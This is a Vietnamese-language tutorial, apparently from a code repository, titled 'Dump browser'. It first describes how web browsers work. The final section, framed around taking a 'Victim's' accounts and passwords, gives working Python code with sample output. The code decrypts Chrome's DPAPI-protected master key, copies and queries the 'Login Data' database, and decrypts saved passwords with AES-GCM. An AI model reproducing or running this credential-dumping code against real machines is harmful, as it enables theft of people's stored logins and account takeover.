

# Dump browser

## Dump là gì?

- **Sao lưu dữ liệu:** Dump là bản sao lưu của dữ liệu, thường được lưu trữ dưới dạng tệp.
- **Giải mã dữ liệu:** Dump là quá trình trích xuất dữ liệu từ một định dạng được mã hóa sang định dạng có thể đọc được.
- **Lấy thông tin:** Dump là quá trình trích xuất thông tin từ một hệ thống hoặc ứng dụng.
- **Xả dữ liệu:** Dump là quá trình loại bỏ dữ liệu khỏi một hệ thống hoặc ứng dụng.
- **Thuật ngữ kỹ thuật:** Trong lập trình, dump là một hàm hoặc phương thức được sử dụng để xuất dữ liệu ra màn hình hoặc tệp.

## Browser là gì?

**Browser:** Browser là một phần mềm máy tính cho phép người dùng truy cập và xem các trang web trên internet. Browser lưu trữ thông tin về người dùng, chẳng hạn như mật khẩu, lịch sử duyệt web, cookie và các thông tin cá nhân khác.

---

# Tìm hiểu về Browser

**Trình duyệt web đóng vai trò cốt yếu trong cách chúng ta tương tác với internet. Chúng là cánh cổng dẫn đến vũ trụ online rộng lớn, cho phép chúng ta mua sắm, học tập, giao tiếp, giải trí và hơn thế nữa.**

## Chức năng của browser

**Trình duyệt web là một phần mềm cho phép người dùng truy cập và xem nội dung trên World Wide Web. Chức năng chính của nó là tìm kiếm và truy xuất các trang web, hình ảnh, video, tài liệu và các tệp khác từ các máy chủ và hiển thị chúng trên thiết bị của người dùng.**

- Trình duyệt web là một công cụ thiết yếu để truy cập Internet.
- Nó hoạt động như một người trung gian, kết nối người dùng với các trang web.
- Khi người dùng nhập URL của trang web vào thanh địa chỉ và nhấn Enter, trình duyệt sẽ gửi yêu cầu đến máy chủ web.
- Máy chủ web phản hồi bằng cách gửi các tệp của trang web, thường được viết bằng các ngôn ngữ như HTML, CSS và JavaScript.
- Trình duyệt diễn giải và hiển thị các tệp này thành trang web mà người dùng nhìn thấy trên màn hình.
- Trình duyệt đóng vai trò quan trọng trong việc giúp người dùng điều hướng và tương tác với nội dung trên Internet.

**Ví dụ: <có cũng được không cũng không sao>**

- Hãy tưởng tượng bạn muốn truy cập một trang web. Khi bạn nhập URL của trang web vào thanh địa chỉ của trình duyệt và nhấn Enter, trình duyệt của bạn sẽ gửi yêu cầu đến máy chủ nơi lưu trữ các tệp của trang web. Giao tiếp này diễn ra qua các giao thức như HTTPS (Giao thức truyền siêu văn bản an toàn) hoặc HTTP (Giao thức truyền siêu văn bản).
- Khi nhận được yêu cầu của bạn, máy chủ sẽ gửi lại các tệp của trang web. Các tệp này thường được viết bằng các ngôn ngữ như HTML, CSS và JavaScript. Công việc của trình duyệt là giải thích mã này và hiển thị nó thành trang web mà bạn nhìn thấy.

---

# **Giải thích về các thành phần của trình duyệt web:**

**Các trình duyệt web được cấu thành từ hai bộ phận chính: giao diện người dùng (front-end) và phần lõi (back-end).**

### **1. Giao diện người dùng (front-end):**

- Đây là phần mà người dùng tương tác trực tiếp, bao gồm các yếu tố giao diện đồ họa (GUI) như:
    - Thanh địa chỉ
    - Các nút điều hướng
    - Dấu trang
    - Tab
- Front-end đảm nhiệm việc hiển thị các trang web, bao gồm nội dung, hình ảnh và các yếu tố tương tác trên màn hình thiết bị của bạn.

### **2. Phần lõi (back-end):**

- Phần lõi bao gồm các quá trình phức tạp diễn ra đằng sau màn hình, đảm nhận các công việc như:
    - Giao tiếp giữa trình duyệt và các máy chủ web
    - Truy xuất và quản lý các tài nguyên của trang web
    - Xử lý mã HTML, CSS và JavaScript để đảm bảo các trang web được hiển thị chính xác.
    - Quản lý các kết nối mạng.
    - Hỗ trợ các giao thức như HTTP và HTTPS.
    - Xử lý các biện pháp bảo mật như mã hóa và xác minh chứng chỉ.

## **Cách thức hoạt động phối hợp giữa front-end và back-end:**

### **Người dùng tương tác với front-end:**

- Nhập URL
- Nhấp vào liên kết
- Sử dụng các tính năng của trình duyệt

### **Front-end truyền đạt yêu cầu đến back-end:**

- Back-end sẽ truy xuất các tài nguyên cần thiết của trang web.

### **Back-end xử lý các tài nguyên:**

- Gửi nội dung đã được xử lý trở lại front-end để hiển thị trên thiết bị của bạn.

### Components of a web browser (Các thành phần của một trình duyệt web)



**Giao diện người dùng (User Interface):**

- Đây là "sân khấu" chính nơi người dùng tương tác trực tiếp với trình duyệt.

**Công cụ trình duyệt (Browser Engine):**

- Là "trái tim" của trình duyệt, xử lý tương tác của người dùng, hiển thị các trang web và kết nối với các thành phần khác. Nó đóng vai trò điều phối thông tin giữa giao diện người dùng, công cụ hiển thị và các thành phần khác.

**Công cụ hiển thị (Rendering Engine):**

- "Họa sĩ" của trình duyệt, chịu trách nhiệm hiển thị nội dung của các trang web. Nó lấy mã HTML, CSS và JavaScript của trang web và biến chúng thành hình ảnh mà người dùng có thể nhìn thấy.

**Bộ giải mã JavaScript (JavaScript Interpreter):**

- Là một "dịch viên" trong trình duyệt, thực thi mã JavaScript được tìm thấy trên các trang web.
    
    → JavaScript là ngôn ngữ lập trình thường được sử dụng để thêm tính tương tác và chức năng động cho trang web.
    
- Bộ giải mã đảm bảo mã JavaScript được thực thi chính xác, cho phép các trang web phản hồi hành động của người dùng, cập nhật nội dung động và tương tác với các API và công nghệ web khác.

**Mạng (Networking):**

- Là "bưu tá" của trình duyệt, xử lý các khía cạnh khác nhau của giao tiếp mạng. Nó chịu trách nhiệm:
    - Chuyển đổi URL thành địa chỉ IP của máy chủ web.
    - Gửi yêu cầu HTTP đến máy chủ web.
    - Thiết lập kết nối mạng.
    - Nhận và xử lý phản hồi từ máy chủ web.

---

# Làm thế nào browser hoạt động?

**Trình duyệt web đóng vai trò như một người trung gian giữa bạn và các trang web bạn muốn truy cập. Khi bạn nhập một URL hoặc nhấp vào một liên kết, trình duyệt sẽ thực hiện một loạt các bước để lấy nội dung web từ máy chủ và hiển thị trên thiết bị của bạn.**

## **Sau đây là các bước chính:**

1. **Phân giải DNS (Domain Name System):**
    - Trình duyệt chuyển đổi tên miền (ví dụ: [www.google.com](https://www.google.com/)) thành địa chỉ IP tương ứng. Địa chỉ IP là một dãy số định danh duy nhất cho mỗi thiết bị kết nối với internet, giống như số điện thoại của một ngôi nhà. Điều này cho phép trình duyệt xác định vị trí chính xác của máy chủ lưu trữ trang web.
2. **Gửi yêu cầu HTTP:**
    - Trình duyệt gửi một yêu cầu HTTP (Hypertext Transfer Protocol) đến máy chủ. Yêu cầu này giống như một lá thư gửi đến máy chủ web, yêu cầu cung cấp nội dung của trang web mà bạn muốn truy cập.
3. **Nhận phản hồi HTTP:**
    - Máy chủ nhận được yêu cầu và gửi lại một phản hồi HTTP cho trình duyệt. Phản hồi này chứa nội dung của trang web, bao gồm mã HTML, CSS và JavaScript.
4. **Hiển thị trang web:**
    - Trình duyệt sử dụng công cụ hiển thị (rendering engine) để diễn giải và hiển thị mã HTML, CSS và JavaScript.
        - HTML xác định cấu trúc và nội dung của trang web (ví dụ: tiêu đề, đoạn văn, hình ảnh).
        - CSS định dạng giao diện của trang web, bao gồm phông chữ, màu sắc và bố cục.
        - JavaScript thêm các tính năng tương tác và hành vi động cho trang web (ví dụ: các menu thả xuống, các hiệu ứng hình ảnh).
5. **Cập nhật nội dung:**
    - Nếu có nội dung mới được tải xuống hoặc có thay đổi trên trang web, trình duyệt sẽ cập nhật hiển thị tương ứng. Điều này đảm bảo rằng bạn luôn thấy phiên bản mới nhất của trang web.

---

# Giải thích các thành phần để khai thác tài khoảng và mật khẩu Victim

## Keys

1. **`secret_key`**: Đây là khóa bí mật (private key) được sử dụng để giải mã mật khẩu đã mã hóa. Khóa này được lấy từ tệp `Local State` của Chrome, nơi nó được lưu trữ ở dạng đã mã hóa bằng DPAPI (Data Protection API) của Windows.
2. **`ciphertext`**: Đây là mật khẩu đã được mã hóa, ở dạng bytes. Nó chứa cả vector khởi tạo (IV) và mật khẩu đã mã hóa thực tế.

## **Các loại mã hóa và giải mã:**

1. **Mã hóa AES-GCM**: Mật khẩu người dùng được mã hóa bằng thuật toán AES (Advanced Encryption Standard) ở chế độ GCM (Galois/Counter Mode). Đây là một chế độ mã hóa khối đối xứng cung cấp cả tính bảo mật và tính toàn vẹn dữ liệu.
2. **Giải mã AES-GCM**: Đoạn code sử dụng `secret_key` và `initialisation_vector` để tạo ra một đối tượng cipher AES-GCM. Sau đó, nó sử dụng cipher này để giải mã `encrypted_password` (mật khẩu đã mã hóa) lấy từ cơ sở dữ liệu `Login Data` của Chrome.
3. **Mã hóa DPAPI**: `secret_key` ban đầu được mã hóa bằng DPAPI để bảo vệ nó trên hệ thống Windows của người dùng. Đoạn code sử dụng hàm `win32crypt.CryptUnprotectData` để giải mã `secret_key` bằng DPAPI trước khi sử dụng nó để giải mã mật khẩu.

## Secret key

```jsx
import base64
import win32crypt

encrypted_key = "RFLBUEkKAAAA0Iyd3wEV0RGMegDAT8KX6wEAAAD5Lvzarec7TblyzT2RNJN6EAAAABwAAABHAG8AbwBnAGwAZQAgAEMAaAByAG8AbQBlAAAAEGYAAAABAAAgAAAAxFvI6hLJ31byJ3v+XGtPyW2UaK6pLKnTPCAudjJLpV4AAAAADoAAAAACAAAgAAAA6znT2IWhQH+FN75GWzFcNI/1nezG2NqyXUSyeyEViBowAAAAg7rHMFCcTYPnhJExZ9tVfUa+9cZWceyaiOaRVYw8nbNr4XU2j4tgK/mvnygDlBQgQAAAABNfqqaoiZDuCjyuE8EZ06B1uBjN6JYq03b7W+tWaM144EnvUDbFEURp1md9Q6VBx4k3G4ZhP1/Bbxkn0k6tFvY="

# Giải mã base64
secret_key_b64 = base64.b64decode(encrypted_key)

# Loại bỏ tiền tố DPAPI
secret_key_b64 = secret_key_b64[5:]

# Giải mã DPAPI
secret_key = win32crypt.CryptUnprotectData(secret_key_b64, None, None, None, 0)[1]

# In độ dài của secret_key
print(len(secret_key))

# In secret_key
print(secret_key)

C:\python .\secret_key.py
32
b'\\\\7D\x7e+p\x9d\xd92[!H\x11]z\xacZ\x9d\xed\xe6\xe5\xe6\xaeE\x1b\x11\xd1\x4f:\x9a\xf5'
```

Ví dụ ta đã lấy được encrypted_key và code trên là quá trình chuyển từ encrypted_key thành Secret key

## **Ciphertext**

```jsx
import os
import shutil
import sqlite3

chrome_path = os.path.normpath(r"%s\AppData\Local\Google\Chrome\User Data\Default\Login Data"%(os.environ['USERPROFILE']))

shutil.copy2(chrome_path, "Loginvault.db") 
conn = sqlite3.connect("Loginvault.db")
cursor = conn.cursor() # Tạo con trỏ
cursor.execute("SELECT origin_url, username_value, password_value FROM logins")

for index,login in enumerate(cursor.fetchall()):
    print(f"URL: {login[0]}")
    print(f"username = {login[1]}")
    print(f"ciphertext = {login[2]}")
conn.close()

print(chrome_path)

C:\python .\ciphertext.py
URL: https://example.com
username = example@gmail.com
ciphertext = b'v10\x9be\xe4\x14{\x81\x1d\xf6\xf8\x98\xb1I4\x8c\xf8\xc1\xad\xd1\x9a\xcd\x9e\x90\xa8,1\xf3a\x08]\x195\xf2B\xccX\x8e_\x82\xf7q'
```

1. Đầu tiên `chrome_path` sửa dụng các hàm trên để để tìm đường dẫn chính xác đến file lưu trữ thông tin đăng nhập của Chrome trên máy tính của người dùng.
2. Sau đó tạo 1 bản sao để sao chép file "**Login Data**" gốc vào một file mới tên là "**Loginvault.db**" để tránh thay đổi dữ liệu gốc trong quá trình làm việc.
3. Tiếp theo kết nối đến bản sao truy vấn dữ liệu, thiết lập sqlite3 để kết nối đến bản sao **Loginvault.db**, sau đó thực hiện truy vấn SQL để lấy ra các cột **origin_url, username_value và password_value** từ bảng logins.
4. Dựa trên vòng lặp duyệt qua từng hàng dữ liệu được truy vấn, in ra thông tin bao gồm URL tên người dùng và mật khẩu đã mã hóa.

## Decrypt Password

```jsx
import os 
import re 
import sys
import json 
import base64
import sqlite3
import win32crypt 
from Cryptodome.Cipher import AES
import shutil 
import csv 

# Giá trị ciphertext và secret_key của bạn
ciphertext = b'v10\x9be\xe4\x14{\x81\x1d\xf6\xf8\x98\xb1I4\x8c\xf8\xc1\xad\xd1\x9a\xcd\x9e\x90\xa8,1\xf3a\x08]\x195\xf2B\xccX\x8e_\x82\xf7q'
secret_key = b'\xc3O\xbc\xb2Kf0\x15\xaf\xd8\xff\x94\xed;y\xb9la\xee\xfa]=\x00M\x0c\x1e\xdf\xd4\xba\x1b\xc3\xc3'

# Hàm để giải mã dữ liệu đã mã hóa 
def decrypt_payload(cipher, payload):
    return cipher.decrypt(payload)

# Hàm để tạo đối tượng cipher sử dụng thuật toán AES trong chế độ GCM
def generate_cipher(aes_key, iv):
    return AES.new(aes_key, AES.MODE_GCM, iv)

# Trích xuất vector khởi tạo (IV) từ ciphertext
initialisation_vector = ciphertext[3:15]
print("initialisation vector: ", initialisation_vector)

# Trích xuất phần dữ liệu mật khẩu đã mã hóa từ ciphertext
encrypted_password = ciphertext[15:-16]
print("encrypted password: ", encrypted_password)

# Tạo đối tượng cipher
cipher = generate_cipher(secret_key, initialisation_vector)

# Giải mã mật khẩu
print("Process of decrypted password is success!")
decrypted_pass = decrypt_payload(cipher, encrypted_password)
decrypted_pass = decrypted_pass.decode()

# In mật khẩu đã giải mã
print("Password is: ", decrypted_pass)

C:\python .\password.py
initialisation vector:  b'\x9be\xe4\x14{\x81\x1d\xf6\xf8\x98\xb1I'
encrypted password:  b'4\x8c\xf8\xc1\xad\xd1\x9a\xcd\x9e\x90\xa8,'
Process of decrypted password is success!
Password is:  poilioma1234
```

Khi đã có secret key và ciphertext thì chúng ta sẽ:

1. Trích xuất IV và dữ liệu mật khẩu đã mã hóa từ **ciphertext**.
2. Tạo đối tượng cipher bằng cách sử dụng **secret_key** và **initialisation_vector.**
3. Giải mã dữ liệu mật khẩu đã mã hóa bằng cách sử dụng hàm **decrypt_payload.**
4. Chuyển đổi dữ liệu đã giải mã thành chuỗi.
5. In mật khẩu đã giải mã.